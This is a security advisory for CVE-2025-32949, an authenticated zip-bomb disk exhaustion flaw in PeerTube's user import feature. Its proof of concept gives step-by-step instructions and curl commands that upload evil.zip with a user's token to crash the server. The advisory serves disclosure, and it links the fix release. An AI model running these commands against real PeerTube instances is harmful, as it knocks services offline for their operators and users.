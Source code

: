 ```yaml
---
description: CVE-2025-32949 Medium severity. PeerTube User Import Authenticated Resource Exhaustion
title: PeerTube User Import Authenticated Resource Exhaustion
date_published: "2025-04-14"
last_updated: "2025-04-14"
xray_id:
vul_id: CVE-2025-32949
cvss: 6.5
severity: medium
discovered_by: Ori Hollander
type: vulnerability
---
```

## Summary
This vulnerability allows any authenticated user to cause the server to consume very large amounts of disk space when extracting a Zip Bomb



## Component

[PeerTube](https://github.com/Chocobozzz/PeerTube)



## Affected versions

(, 7.1.0]



## Description

If user import is enabled (which is the default setting), any registered user can upload an archive for importing. The code uses the yauzl library for reading the archive.
The yauzl library does not contain any mechanism to detect or prevent extraction of a [Zip Bomb](https://en.wikipedia.org/wiki/Zip_bomb). Therefore, when using the User Import functionality with a Zip Bomb, PeerTube will try extracting the archive which will cause a disk space resource exhaustion.

## PoC

This PoC assumes that there is a PeerTube instance on the machine listening on ports 3000 (client) and 9000 (server). Note that running this PoC will cause PeerTube’s server to shut down.



1. First, using a browser, log in to the PeerTube instance with any user’s credentials, and use the inspection screen to copy the authorization token of the user.
1. Create a Zip Bomb named `evil.zip` in the current directory
1. In a terminal, run the following commands (replace “user_token” with the token obtained from step #1):
```
new_location=http:$(curl -s -D - 'http://127.0.0.1:3000/api/v1/users/1/imports/import-resumable' -H 'Authorization: Bearer user_token' -H 'Content-Type: application/json; charset=UTF-8' -H 'X-Upload-Content-Length: 168' -H 'X-Upload-Content-Type: application/x-zip-compressed' --data-raw '{"name":"evil.zip","mimeType":"application/x-zip-compressed","size":168,"lastModified":1743493990068,"filename":"evil.zip"}' | awk '/^location:/{print $2}' | tr -d '\r')
curl -X PUT "$new_location" -H "Content-Type: application/octet-stream" -H "Content-Range: bytes 0-167/168" -H 'Authorization: user_token' --data-binary @evil.zip
```
If everything was done correctly, the PeerTube server will begin extracting the zip file, which will cause disk space resource exhaustion.



## Vulnerability Mitigations

No mitigations are supplied for this issue



## References

[Fix release](https://github.com/Chocobozzz/PeerTube/releases/tag/v7.1.1)

[PoC Materials](https://drive.google.com/file/d/1zmXFNutT4ACOJZGmxhU22nhu9Fbn4ui2/view?usp=drive_link)
